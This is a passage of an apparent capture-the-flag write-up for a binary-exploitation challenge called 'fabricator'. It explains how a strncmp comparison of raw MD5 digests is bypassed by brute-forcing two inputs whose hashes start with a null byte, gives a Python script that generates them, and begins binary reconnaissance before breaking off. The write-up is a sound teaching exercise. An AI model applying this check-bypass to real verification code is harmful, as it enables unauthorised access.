 To pass the checks, we need to enter id1 and id2, and each must start with the prefix `Hi, my name is Jangui. My card is my passport. Please verify me.` These IDs must hash to the same value using MD5, but different values using SHA256.

SHA256 is not broken, and we expect any two different inputs to produce different hashes. MD5, on the other hand, is not collision resistant; we can craft two inputs which result in the same hash value. This would allow us to pass all the checks and reach the buffer overflow. However, a much simpler attack can be used in this case, due to a flaw in the hash comparison.

The comparison between the MD5 hashes of id1 and id2 is:
```c
if (strncmp(md5hash1, md5hash2, MD5_DIGEST_LENGTH)){
        puts("MD5 hashes are not the same and should be!");
        return 0;
    }
```
But the output of a hash function is a sequence of bytes, not a string, so why would they use strncmp?

The problem is that strings in C are null-terminated, and strncmp will identify the hashes as identical whenever they match up to the first null byte. All data after the first null bytes will be ignored. So, if both hashes start with a null byte `\x00`, they will match at the first bytes and the comparison will stop there, returning success. (This was an unintended solution I found. The problem would still be solvable, but more difficult, without this technique.)

One in every 256 MD5 hashes starts with a null byte, so it won't be hard to generate two IDs which match in this way. Here's a script which can find the collisions:
```python
from Crypto.Hash import MD5

prefix = b"Hi, my name is Jangui. My card is my passport. Please verify me."

def collide(payload):
    assert len(payload) == 400 - 256
    collisions = []
    i = 0
    while len(collisions)<2:
        msg = (prefix
              +str(i).encode()
              +b'A'*(256-len(prefix)-len(str(i)))
              +payload
              )
        h = MD5.new()
        h.update(msg)
        if h.hexdigest()[:2] == '00':
            collisions.append(msg)
        i+=1
    return collisions

payload = b'B'*144

id1, id2 = collide(payload)
```
Using IDs generated with this process, we can pass the validation checks and reach the vulnerable line of code, where we have a buffer overflow. Let's start investigating this as a pwn challenge.
```
$ file fabricator
fabricator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=b0b112ad89e46f6463182e547a74cc11350317cf, not stripped

$ checksec fabricator
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
